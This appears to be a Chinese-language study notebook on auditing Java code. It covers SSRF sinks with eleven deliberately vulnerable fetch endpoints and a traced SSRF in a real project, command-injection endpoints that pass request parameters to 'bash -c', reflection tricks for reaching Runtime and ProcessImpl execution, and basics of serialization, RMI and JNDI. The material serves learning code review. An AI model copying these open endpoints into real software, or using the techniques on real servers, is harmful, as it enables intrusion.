ssrf ssrf危险函数
Version:0.9 StartHTML:0000000105 EndHTML:0000001403 StartFragment:0000000141 EndFragment:0000001363
HttpClient.execute()
HttpClient.executeMethod()
HttpURLConnection.connect()
HttpURLConnection.getInputStream()
URL.openStream()
HttpServletRequest()
BasicHttpEntityEnclosingRequest()
DefaultBHttpClientConnection()
BasicHttpRequest()
出现场景
服务器请求另外一个服务器的资源的时候
在线翻译
转码服务
图片收藏/下载
信息采集• 邮件系统或者从远程服务器请求资源
关键字
HttpRequest.get
HttpRequest.post
Jsoup.connect
getForObject
RestTemplate
postForObject
httpclient
execute
HttpClients.createDefault
httpasyncclient
HttpAsyncClients.createDefault
java.net.URLConnection
openConnection
java.net.HttpURLConnection
openStream
Socket
java.net.Socket
okhttp
OkHttpClient
newCall
ImageIO.read
javax.imageio.ImageIO
HttpRequest.get
jsoup
Jsoup.connect
RestTemplate
org.springframework.web.client.RestTemplate
代码 11个可能出现SSRF的案例代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 package com.example.ssrfdemo;import cn.hutool.http.HttpRequest;import okhttp3.OkHttpClient;import okhttp3.Request;import okhttp3.Response;import org.apache.http.HttpResponse;import org.apache.http.client.methods.HttpGet;import org.apache.http.impl.client.CloseableHttpClient;import org.apache.http.impl.client.HttpClients;import org.apache.http.impl.nio.client.CloseableHttpAsyncClient;import org.apache.http.impl.nio.client.HttpAsyncClients;import org.apache.http.util.EntityUtils;import org.jsoup.Jsoup;import org.jsoup.nodes.Document;import org.springframework.web.bind.annotation.GetMapping;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.RestController;import org.springframework.web.client.RestTemplate;import javax.imageio.ImageIO;import java.awt.*;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStreamReader;import java.net.HttpURLConnection;import java.net.Socket;import java.net.URL;import java.net.URLConnection;import java.util.concurrent.Future;@RestController @RequestMapping("/ssrfvulAll") public class AllCode @GetMapping("/httpasyncclient/vul") public String HttpAsyncClientDemo (@RequestParam String url) throws IOException CloseableHttpAsyncClient httpclient = HttpAsyncClients.createDefault(); try { httpclient.start(); final HttpGet request = new HttpGet(url); Future<HttpResponse> future = httpclient.execute(request, null ); HttpResponse response = future.get(); return EntityUtils.toString(response.getEntity()); } catch (Exception e) { return e.getMessage(); } finally { try { httpclient.close(); } catch (Exception e) { return e.getMessage(); } } } @GetMapping("/httpclient/vul") public String HttpClientDemo (@RequestParam String url) throws IOException StringBuilder result = new StringBuilder(); CloseableHttpClient client = HttpClients.createDefault(); HttpGet httpGet = new HttpGet(url); HttpResponse httpResponse = client.execute(httpGet); BufferedReader rd = new BufferedReader(new InputStreamReader(httpResponse.getEntity().getContent())); String line; while ((line = rd.readLine()) != null ) { result.append(line); } return result.toString(); } @GetMapping("/httpurlconnection/vul") public String HttpUrlConnectionDemo (@RequestParam String url) throws IOException StringBuilder result = new StringBuilder(); URL url1 = new URL(url); HttpURLConnection connection = (HttpURLConnection) url1.openConnection(); connection.setRequestMethod("GET" ); int responseCode = connection.getResponseCode(); if (responseCode == HttpURLConnection.HTTP_OK){ BufferedReader in = new BufferedReader(new InputStreamReader(connection.getInputStream())); String inputLine; while ((inputLine = in.readLine()) != null ) { result.append(inputLine); } } return result.toString(); } @GetMapping("/hutool/vul") public String HutoolDemo (@RequestParam String url) HttpRequest httpRequest = HttpRequest.get(url); String result = httpRequest.execute().body(); return result; } @GetMapping("/imageio/vul") public String ImageioDemo (@RequestParam String url) throws IOException StringBuilder result = new StringBuilder(); URL url1 = new URL(url); Image image = ImageIO.read(url1); return image.toString(); } @GetMapping("/jsoup/vul") public String JsoupDemo (@RequestParam String url) throws IOException Document doc = Jsoup.connect(url).get(); return doc.toString(); } @GetMapping("/okhttpclient/vul") public String OkHttpClientDemo (@RequestParam String url) OkHttpClient client = new OkHttpClient(); Request request = new Request.Builder() .url(url) .build(); try (Response response = client.newCall(request).execute()) { return response.body().string(); } catch (IOException e) { throw new RuntimeException(e); } } @GetMapping("/resttemplate/vul") public String RestTemplateDemo (@RequestParam String url) RestTemplate restTemplate = new RestTemplate(); String result = restTemplate.getForObject(url ,String.class); return result; } @GetMapping("/socket/vul") public String SocketDemo (@RequestParam String url, int port) throws IOException StringBuilder result = new StringBuilder(); Socket ss = new Socket(url,port); System.out.println(port); BufferedReader in = new BufferedReader(new InputStreamReader(ss.getInputStream())); String inputLine; while ((inputLine = in.readLine()) != null ) { result.append(inputLine); } in.close(); return result.toString(); } @GetMapping("/urlconnection/vul") public String UrlConnectionDemo (@RequestParam String url) throws IOException StringBuilder result = new StringBuilder(); URL url1 = new URL(url); URLConnection urlConn = url1.openConnection(); urlConn.connect(); BufferedReader in = new BufferedReader(new InputStreamReader(urlConn.getInputStream())); String inputLine; while ((inputLine = in.readLine()) != null ) { result.append(inputLine); } in.close(); return result.toString(); } @GetMapping("/url/vul") public String UrlDemo (@RequestParam String url) throws IOException StringBuilder result = new StringBuilder(); URL url1 = new URL(url); BufferedReader in = new BufferedReader(new InputStreamReader( url1.openStream())); String inputLine; while ((inputLine = in.readLine()) != null ) { result.append(inputLine); } in.close(); return result.toString(); } }
案例 这是一个不知道怎么找到的项目，地址：https://github.com/Tawhh/task
ssrf漏洞的触发点在后台，任务管理-项目管理-任务管理中的新增任务，可以添加http地址

转到代码
首先根据web路由/taskJob/f_json/execJob，跳到了execJob()函数里，这边可以看到有一个execob方法，跟进

跟进execJob方法后，这边通过传入的id值找到了对应的任务，并将它与其他变量一起创建了一个新对象（ExecJobTask类）,并将此对象作为参数传给了pool.execute()方法，跟进execute方法。

继续跟execute
这个execute再跟进就到externalSubmit函数了，这是Fork/Join框架。

去查了一些资料
https://www.liaoxuefeng.com/article/1146802219354112

提到了一个compute函数，需要实现这个函数来完成执行任务的操作，而在项目中搜索compute，只有一个地方有

代码流程跟到FrameHttpUtil.post(link, params);，传入了link和params，其中link就是刚刚输入的地址，跟进post函数

进入post后，发现了httpclient.execute(),之前的http://127.0.0.1:8000也传到这里面来了。

多写一点 这一部分其实没啥用，主要是倒着回溯一下compute的调用过程，以下是倒着的过程
java.util.concurrent.RecursiveAction#exec
java.util.concurrent.ForkJoinTask#doExec
java.util.concurrent.ForkJoinPool.WorkQueue#topLevelExec
java.util.concurrent.ForkJoinPool#scan
java.util.concurrent.ForkJoinPool#runWorker
while((src = this.scan(w, src, r)) >= 0);
java.util.concurrent.ForkJoinWorkerThread#run
线程从这里开始，再往前就没有了
文件上传 文件上传关键函数
File
lastIndexOf
indexOf
FileUpload
getRealPath
getServletPath
getPathInfo
getContentType
equalslgnoreCase
FileUtils
MultipartFile
MultipartRequestEntity
UploadHandleServlet
FileLoadServlet
FileOutputStream
getInputStream
DiskFileItemFactory
java 命令执行 java.lang.Runtime
方法
英文释义
中文释义（非标准）
exec(String[] cmdarray)
Executes the specified command and arguments in a separate process.
在单独的进程中执行 指定的命令和参数。
exec(String command)
Executes the specified string command in a separate process.
在单独的进程中执行 指定的字符串命令。
exec(String command, String[] envp, File dir)
Executes the specified string command in a separate process with the specified environment and working directory
在具有指定环境和工 作目录的单独进程中 执行指定的字符串命 令。
exec(String command, String[] envp)
Executes the specified string command in a separate process with the specified environment.
在具有指定环境的单 独进程中执行指定的 字符串命令。
exec(String[] cmdarray, String[] envp)
Executes the specified command and arguments in a separate process with the specified environment.
在具有指定环境的单 独进程中执行指定的 命令和参数。
exec(String[] cmdarray, String[] envp, File dir)
Executes the specified command and arguments in a separate process with the specified environment and working directory.
在具有指定环境和工 作目录的单独进程中 执行指定的命令和参 数。
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 @RequestMapping("/execRuntimeString") public void execRuntimeString (String command, HttpServletResponse response) throws IOException String line = null ; Process process = Runtime.getRuntime().exec(command); BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream(), Charset.forName("GBK" ))); PrintWriter out = response.getWriter(); while ((line = bufferedReader.readLine()) != null ) { System.out.println(line); out.print(line); } bufferedReader.close(); } @RequestMapping("/execRuntimeArray") public void execRuntimeArray (String command, HttpServletResponse response) throws IOException String line = null ; String[] commandarray ={"bash" ,"-c" ,command}; Process process = Runtime.getRuntime().exec(commandarray); BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream(), Charset.forName("GBK" ))); PrintWriter out = response.getWriter(); while ((line = bufferedReader.readLine()) != null ) { System.out.println(line); out.print(line); } bufferedReader.close(); }
java.lang.ProcessBuilder java.lang.ProcessBuilder 也是java.lang中的一个API。该类主要用于创建操作系统进程
command()方法 1 2 3 ProcessBuilder p = new ProcessBuilder(); p.command("calc" );
start()方法 使用 start() 方法可以创建一个新的具有命令，或环境，或工作目录，或输入来源，或标准输出和标准错误输出的目标，或redirectErrorStream属性的进程。
在使用 command() 方法设置执行命令参数后，然后由 start() 方法创建一个新的进程进而在系统中执行了我们设置的命令。
这么看来 java.lang.ProcessBuilder#start() 和 Runtime.exec(String[] cmdarray, String[] envp, File dir) 有些相似。
1 2 Process cmd = new ProcessBuilder(command).start();
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 @RequestMapping("/execProcessBuilder") public void execProcessBuilder (String command,HttpServletResponse response) throws IOException String line; ProcessBuilder processBuilder = new ProcessBuilder(); processBuilder.command("bash" ,"-c" ,command); Process process = processBuilder.start(); BufferedReader bf = new BufferedReader(new InputStreamReader(process.getInputStream(), StandardCharsets.UTF_8)); PrintWriter out = response.getWriter(); while ((line = bf.readLine()) != null ) { System.out.println(line); out.print(line); } bf.close(); }
java.lang.UNIXProcess/ProcessImpl UNIXProcess类是*nix系统在java程序中的体现，可以使用该类创建新进程，实现与”fork”类似的功能
对于Windows系统，使用的是java.lang.ProcessImpl类。
UNIXProcess 和 ProcessImpl 可以理解本就是一个东西，因为在JDK9的时候把 UNIXProcess 合并到了 ProcessImpl 当中了。具体可查看：https://hg.openjdk.java.net/jdk-updates/jdk9u/jdk/rev/98eb910c9a97
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 @RequestMapping("/execProcessImpl") public static void execProcessImpl (String command, HttpServletResponse response) throws IOException, ClassNotFoundException, InvocationTargetException, IllegalAccessException, NoSuchMethodException String line; String[] cmds = new String[]{"bash" , "-c" , command}; Class claxx = Class.forName("java.lang.ProcessImpl" ); Method method = claxx.getDeclaredMethod("start" , String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean .class); method.setAccessible(true ); Process process = (Process) method.invoke(null , cmds, null , "." , null , true ); BufferedReader bf = new BufferedReader(new InputStreamReader(process.getInputStream(), StandardCharsets.UTF_8)); PrintWriter out = response.getWriter(); while ((line = bf.readLine()) != null ) { System.out.println(line); out.print(line); } bf.close(); } }
这部分代码没有测试成功
java 反射 获取class对象 获取Class对象的方式有下面几种，：
根据类名：类名.class
根据对象：对象.getClass()
根据全限定类名：Class.forName(全路径类名)
通过类加载器获得class对象：ClassLoader.getSystemClassLoader().loadClass(“com.example.xxx”);
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 package org.example.DEMO;import org.example.DEMO.entity.User;public class GetClass public static void main (String[] args) throws ClassNotFoundException { Class c1 = User.class; User user = new User(); Class c2 = user.getClass(); Class c3 = Class.forName("org.example.DEMO.entity.User" ); ClassLoader classLoader = ClassLoader.getSystemClassLoader(); Class c4 = classLoader.loadClass("org.example.DEMO.entity.User" ); System.out.println(c1); System.out.println(c2); System.out.println(c3); System.out.println(c4); } }

需要注意的点
类名.class：需要导入类的包。
对象.getClass()：初始化对象后，其实不需要再使用反射了。
Class.forName(全路径类名)：需要知道类的完整全路径，这是我们常使用的方法。
通过类加载器获得class对象：ClassLoader.getSystemClassLoader().loadClass(“com.example.xxx”);
反射api Java提供了一套反射API，该API由 Class 类与 java.lang.reflect 类库组成。
在写示例代码前，先准备一个Usernfo类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 package org.example.DEMO.reflectdemo;public class UserInfo private String name; public int age; public UserInfo () private UserInfo (String name) this .name = name; } public UserInfo (String name, int age) this .name = name; this .age = age; } public String getName () return name; } public void setName (String name) this .name = name; } public int getAge () return age; } public void setAge (int age) this .age = age; } private String introduce () return "我叫" + name + "，今年" + age + "岁了！" ; } public String sayHello () return "Hello！我叫[" + name + "]" ; } @Override public String toString () return "Person{" + "name='" + name + '\'' + ", age=" + age + '}' ; } }
java.lang.Class 用来描述类的内部信息， Class 的实例可以获取类的包、注解、修饰符、名称、超类、接口等。
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 package org.example.DEMO.reflectdemo;import java.lang.reflect.Modifier;public class ClassDemo public static void main (String[] args) throws ClassNotFoundException { Class clazz = Class.forName("org.example.DEMO.reflectdemo.UserInfo" ); Package aPackage = clazz.getPackage(); System.out.println("getPackage运行结果：" + aPackage); int modifiers = clazz.getModifiers(); String modifier = Modifier.toString(modifiers); System.out.println("getModifiers运行结果：" + modifier); String name = clazz.getName(); System.out.println("getName运行结果：" + name); String simpleName = clazz.getSimpleName(); System.out.println("getSimpleName运行结果：" + simpleName); } }

java.lang.reflect.Field 提供了类的属性信息。可以获取属性上的注解、修饰符、属性类型、属性名等。
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 package org.example.DEMO.reflectdemo;import java.lang.reflect.Field;import java.lang.reflect.Modifier;public class FieldDemo public static void main (String[] args) throws Exception Class<?> clazz = Class.forName("org.example.DEMO.reflectdemo.UserInfo" ); Field field1 = clazz.getField("age" ); System.out.println("getField运行结果：" + field1); Field[] fieldArray1 = clazz.getFields(); for (Field field : fieldArray1) { System.out.println("getFields运行结果：" + field); } Field field2 = clazz.getDeclaredField("name" ); System.out.println("getDeclaredField运行结果：" + field2); String modifier = Modifier.toString(field2.getModifiers()); System.out.println("getModifiers运行结果： " + modifier); Field[] fieldArray2 = clazz.getDeclaredFields(); for (Field field : fieldArray2) { System.out.println("getDeclaredFields运行结果：" + field); } } }

java.lang.reflect.Method 提供了类的方法信息。可以获取方法上的注解、修饰符、返回值类型、方法名称、所有参数
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 package org.example.DEMO.reflectdemo;import java.lang.reflect.Method;import java.lang.reflect.Parameter;public class MethodDemo public static void main (String[] args) throws Exception Class<?> clazz = Class.forName("org.example.DEMO.reflectdemo.UserInfo" ); Method method = clazz.getMethod("setName" , String.class); System.out.println("01-getMethod运行结果：" + method); System.out.println("\n" ); Parameter[] parameters = method.getParameters(); for (Parameter temp : parameters) { System.out.println("getParameters运行结果 " + temp); } System.out.println("\n" ); Method[] methods = clazz.getMethods(); for (Method temp : methods) { System.out.println("02-getMethods运行结果：" + temp); } System.out.println("\n" ); Method declaredMethod = clazz.getDeclaredMethod("getName" ); System.out.println("03-getDeclaredMethod运行结果：" + declaredMethod); Method[] declaredMethods = clazz.getDeclaredMethods(); for (Method temp : declaredMethods) { System.out.println("04-getDeclaredMethods运行结果：" + temp); } System.out.println("\n" ); } }

java.lang.reflect.Modifier 提供了访问修饰符信息。通过 Class 、 Field 、 Method 、 Constructor 等对象都可以获取修饰符，这个访问修饰符是一个整数，可以通过 Modifier.toString 方法来查看修饰符描述。并且该类提供了一些静态方法和常量来解码访问修饰符。(修饰符就是前面的public，private之类的东西)
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 package org.example.DEMO.reflectdemo;import java.lang.reflect.Modifier;public class ModifierDemo public static void main (String[] args) throws Exception Class<?> clazz = Class.forName("org.example.DEMO.reflectdemo.UserInfo" ); int modifiers1 = clazz.getModifiers(); System.out.println("获取类的修饰符值getModifiers运行结果：" + modifiers1); int modifiers2 = clazz.getDeclaredField("name" ).getModifiers(); System.out.println("获取属性的修饰符值getModifiers运行结果：" + modifiers2); int modifiers4 = clazz.getDeclaredMethod("setName" , String.class).getModifiers(); System.out.println("获取方法的修饰符值getModifiers运行结果：" + modifiers4); String modifier = Modifier.toString(modifiers1); System.out.println("获取类的修饰符值的字符串结果：" + modifier); System.out.println("获取属性的修饰符值字符串结果：" + Modifier.toString(modifiers2)); System.out.println("获取方法的修饰符值资费从结果：" + Modifier.toString(modifiers4)); } }

java.lang.reflect.Constructor 提供了类的构造函数信息。可以获取构造函数上的注解信息、参数类型等。
示例代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 package org.example.DEMO.reflectdemo;import java.lang.reflect.Constructor;public class ConstructorDemo public static void main (String[] args) throws Exception Class<?> clazz = Class.forName("org.example.DEMO.reflectdemo.UserInfo" ); Constructor<?> constructor1 = clazz.getConstructor(String.class,int .class); System.out.println("1-getConstructor运行结果：" + constructor1); Object c1 = constructor1.newInstance("power7089" ,18 ); System.out.println("2-newInstance运行结果： " + c1); Constructor<?>[] constructorArray1 = clazz.getConstructors(); for (Constructor<?> constructor : constructorArray1) { System.out.println("3-getConstructors运行结果：" + constructor); } Constructor<?> constructor2 = clazz.getDeclaredConstructor(String.class); System.out.println("4-getDeclaredConstructor运行结果：" + constructor2); constructor2.setAccessible(true ); Object o2 = constructor2.newInstance("Power7089666" ); System.out.println("5-newInstance运行结果：" + o2); Constructor<?>[] constructorArray2 = clazz.getDeclaredConstructors(); for (Constructor<?> constructor : constructorArray2) { System.out.println("6-getDeclaredConstructors运行结果：" + constructor); } } }

java.lang.reflect.AccessibleObject 是 Field 、 Method 和 Constructor 类的类。该类提供了对类、方法、构造函数的访问控制检查的能力（如：私有方法只允许当前类访问）。
该访问检查在设置/获取属性、调用方法、创建/初始化类的实例时执行。
示例代码 1 2 3 4 5 6 7 8 Constructor<?> constructor2 = clazz.getDeclaredConstructor(String.class); System.out.println("4-getDeclaredConstructor运行结果：" + constructor2); constructor2.setAccessible(true ); Object o2 = constructor2.newInstance("Power7089666" ); System.out.println("5-newInstance运行结果：" + o2);
java反射到命令执行 runtime 普通的通过runtime执行命令的代码
1 Process process = Runtime.getRuntime().exec("calc.exe" );
getmethod 1 2 3 4 5 6 Class<?> clazz = Class.forName("java.lang.Runtime" ); Method getRuntimeMethod = clazz.getMethod("getRuntime" ); Object runtime = getRuntimeMethod.invoke(clazz); Method execMethod = clazz.getMethod("exec" , String.class); execMethod.invoke(runtime, "calc.exe" );
代码解读
首先通过forName获取到java.lang.Runtime
简化后代码
1 2 Class<?> clazz = Class.forName("java.lang.Runtime" ); clazz.getMethod("exec" ,String.class).invoke(clazz.getMethod("getRuntime" ).invoke(clazz),"calc.exe" );
(个人理解)，invoke执行代码前，可以将invoke函数内的参数和原函数的参数对比
1 2 3 4 5 6 7 8 9 getRuntime() getRuntimeMethod.invoke(clazz); exec("calc.exe" ) execMethod.invoke(runtime, "calc.exe" );
getDeclaredConstructor 1 2 3 4 5 Class<?> clazz = Class.forName("java.lang.Runtime" ); Constructor m = clazz.getDeclaredConstructor(); m.setAccessible(true ); Method c1 = clazz.getMethod("exec" , String.class); c1.invoke(m.newInstance(), "calc.exe" )
简单解读：
ProcessBuilder 普通的通过ProcessBuilder执行命令的代码
1 2 3 ProcessBuilder processBuilder = new ProcessBuilder(); processBuilder.command("bash" ,"-c" ,command); Process process = processBuilder.start();
通过反射借助ProcessBuilder执行代码
1 2 3 4 5 6 7 8 9 10 11 12 clazz = Class.forName("java.lang.ProcessBuilder" ); Object object = clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 6" )); process = (Process) clazz.getMethod("start" ).invoke(object,null ); result(process); clazz = Class.forName("java.lang.ProcessBuilder" ); process = (Process) ((ProcessBuilder) clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 7" ))).start(); result(process); clazz = Class.forName("java.lang.ProcessBuilder" ); process = (Process) clazz.getMethod("start" ).invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 8" ))); result(process);
ProcessImpl 通过ProcessImpl执行命令的代码
1 2 3 4 5 6 7 8 clazz = Class.forName("java.lang.ProcessImpl" ); String[] cmds = {"bash" ,"-c" ,"echo homework" }; Method method = clazz.getDeclaredMethod("start" , String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean .class); method.setAccessible(true ); process = (Process) method.invoke(null , cmds, null , "." , null , true ); result(process);
首先通过forName获取到java.lang.ProcessImpl
通过getDeclaredMethod构造函数start,start函数的参数分别为String, Map, String, ProcessBuilder, Redirect[], boolean
构造好之后，将构造函数的可访问标志设为 true 后，可以通过私有构造函数创建实例。或者说改变作用域，让我们可以调用他的私有构造函数。
最后调用构造好的函数执行cmds的命令
最后的完整代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 package org.example.DEMO.codeexec;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStreamReader;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;import java.nio.charset.StandardCharsets;import java.lang.reflect.Constructor;import java.util.Arrays;import java.util.List;import java.util.Map;public class test public static void main (String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException, InstantiationException Process process = Runtime.getRuntime().exec("echo 1" ); result(process); Class<?> clazz = Class.forName("java.lang.Runtime" ); Method getRuntimeMethod = clazz.getMethod("getRuntime" ); Object runtime = getRuntimeMethod.invoke(clazz); Method execMethod = clazz.getMethod("exec" , String.class); process = (Process) execMethod.invoke(runtime, "echo 2" ); result(process); clazz = Class.forName("java.lang.Runtime" ); process = (Process) clazz.getMethod("exec" ,String.class).invoke(clazz.getMethod("getRuntime" ).invoke(clazz),"echo 3" ); result(process); clazz = Class.forName("java.lang.Runtime" ); Constructor m = clazz.getDeclaredConstructor(); m.setAccessible(true ); Method c1 = clazz.getMethod("exec" , String.class); process = (Process) c1.invoke(m.newInstance(), "echo 4" ); result(process); ProcessBuilder processBuilder = new ProcessBuilder(); processBuilder.command("bash" ,"-c" ,"echo 5" ); process = processBuilder.start(); result(process); clazz = Class.forName("java.lang.ProcessBuilder" ); Object object = clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 6" )); process = (Process) clazz.getMethod("start" ).invoke(object,null ); result(process); clazz = Class.forName("java.lang.ProcessBuilder" ); process = (Process) ((ProcessBuilder) clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 7" ))).start(); result(process); clazz = Class.forName("java.lang.ProcessBuilder" ); process = (Process) clazz.getMethod("start" ).invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("bash" ,"-c" ,"echo 8" ))); result(process); clazz = Class.forName("java.lang.ProcessImpl" ); String[] cmds = {"bash" ,"-c" ,"echo homework" }; Method method = clazz.getDeclaredMethod("start" , String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean .class); method.setAccessible(true ); process = (Process) method.invoke(null , cmds, null , "." , null , true ); result(process); } public static void result (Process p) throws IOException String line; BufferedReader bf = new BufferedReader(new InputStreamReader(p.getInputStream(), StandardCharsets.UTF_8)); while ((line = bf.readLine()) != null ) { System.out.println(line); } bf.close(); } }
java序列化和反序列化 借一下别人的图

序列化 序列化是指把 Java 对象转换为字节序列的过程，目的是便于保存在内存、文件、数据库中。
1 public final void writeObject (Object obj) throws IOException
官方文档详细说明：https://docs.oracle.com/javase/8/docs/api/java/io/ObjectOutputStream.html#writeObject-java.lang.Object-
该类必须实现 java.io.Serializable 接口。
该类的所有属性必须是可序列化的。如果有一个属性不是可序列化的，则该属性必须注明是短暂的。
反序列化 反序列化是指把字节序列恢复为 Java 对象的过程。
1 public final Object readObject () throws IOException,ClassNotFoundException
示例代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 import java.io.*;public class SerializeDemo public static void main (String[] args) throws IOException, ClassNotFoundException HackInfo hack = new HackInfo(); hack.id = "Power7089" ; hack.team = "闪石星曜CyberSecurity" ; FileOutputStream fileOut = new FileOutputStream("/tmp/test/serializedata.txt" ); ObjectOutputStream out = new ObjectOutputStream(fileOut); out.writeObject(hack); out.close(); fileOut.close(); System.out.println("序列化的数据已经保存在了serializedata.txt文件 中" ); HackInfo hackdes = null ; FileInputStream fileIn = new FileInputStream("/tmp/test/serializedata.txt" ); ObjectInputStream ObjIn = new ObjectInputStream(fileIn); hackdes = (HackInfo) ObjIn.readObject(); System.out.println("反序列化完成" ); System.out.println("id = " + hackdes.id); System.out.println("team = " + hackdes.team); } }

序列化的数据会有明显的特征，都是以 aced 0005 7372 开头的。

RMI RMI（Remote Method Invocation，远程方法调用）是Java的一组拥护开发分布式应用程序的API。RMI使用Java语言接口定义了远程对象，它集合了Java序列化和Java远程方法协议(Java Remote Method Protocol)。RMI对象是通过序列化方式进行传输的 。序列化是RMI的前置科技树。
RMI中的三个角色 RMI中涉及到三个角色，它们分别为服务端（Server），注册中心（Registry）和客户端（Client），下面是他们的作用。
插入一张来自互联网的图片，直观展示了他们的关系

存根/桩(Stub)：客户端侧的代理，每个远程对象都包含一个代理对象stub，当运行在本地Java虚拟机上的程序调用运行在远程Java虚拟机上的对象方法时，它首先在本地创建该对象的代理对象stub, 然后调用代理对象上匹配的方法。
骨架(Skeleton)：服务端侧的代理，用于读取stub传递的方法参数，调用服务器方的实际对象方法， 并接收方法执行后的返回值。
⚠注意：在低版本 的JDK中，Server与Registry是可以不在一台服务器上的，而在高版本的JDK中，Server与Registry只能在一台服务器上，否则无法注册成功。比如Jdk8u121 这个分界线。
(这块没懂RMI三角色的工作原理)
RMI代码编写步骤
创建远程接口及声明远程方法（SayHello.java）
1 2 3 4 5 6 7 8 9 10 11 12 package method;import java.rmi.Remote;import java.rmi.RemoteException;public interface SayHello extends Remote String name = null ; public String sayhello (String name) throws RemoteException public String getname () throws RemoteException }
实现远程接口及远程方法（继承UnicastRemoteObject）(SayHelloImpl.java)
必须继承UnicastRemoteObject 类，表明其可以作为远程对象，并可以被注册到注册中心，最终可以让客户端远程调用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 package method;import java.rmi.RemoteException;import java.rmi.server.UnicastRemoteObject;public class SayHelloImpl extends UnicastRemoteObject implements SayHello String name=null ; public SayHelloImpl () throws RemoteException super (); } @Override public String sayhello (String name) throws RemoteException this .name = name; return "Hello,I am " + name; } @Override public String getname () throws RemoteException if (name==null ){ return "U are nothing" ; } return name; } }
启动RMI注册服务，并注册远程对象（RmiServer.java）
这个步骤我们是编写RMI服务端代码，需要将上面编写的远程方法注册到注册中心去。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 package rmiserver;import method.SayHello;import method.SayHelloImpl;import java.rmi.RemoteException;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;public class RmiServer public static void main (String[] args) throws RemoteException System.out.println("远程方法创建等待调用ing......" ); SayHello sayhello = new SayHelloImpl(); Registry registry = LocateRegistry.createRegistry(1099 ); registry.rebind("sayhello" , sayhello); } }
客户端查找远程对象，并调用远程方法（RmiClient.java）
这个步骤我们是编写RMI客户端代码，主要是获取到注册中心代理，查询具体注册的远程方法并调用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package rmiclient;import method.SayHello;import java.rmi.NotBoundException;import java.rmi.RemoteException;import java.rmi.registry.LocateRegistry; import java.rmi.registry.Registry;public class RmiClient public static void main (String[] args) throws RemoteException, NotBoundException { Registry registry = LocateRegistry.getRegistry("localhost" ,1099 ); SayHello sayhello = (SayHello) registry.lookup("sayhello" ); System.out.println(sayhello.sayhello("POWER7089" )); } }
执行程序：启动服务端RmiServer；运行客户端RmiClient进行调用我们对上面流程进行拆解，编写对应的代码。
(大概流程清楚了，但是细节还是很模糊)
JNDI JNDI（Java Naming and Directory Interface，Java命名和目录接口）是一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。
简单理解：在前面一节我们学到了RMI，比如RMI对外提供了服务，那么JNDI可以通过相关API可以链接处理这些服务
在JNDI中提供了五个作用不同的包。
javax.naming
javax.naming.directory
javax.naming.ldap
javax.naming.event
javax.naming.spi
官方文档地址：https://docs.oracle.com/javase/tutorial/jndi/overview/
JndiServer
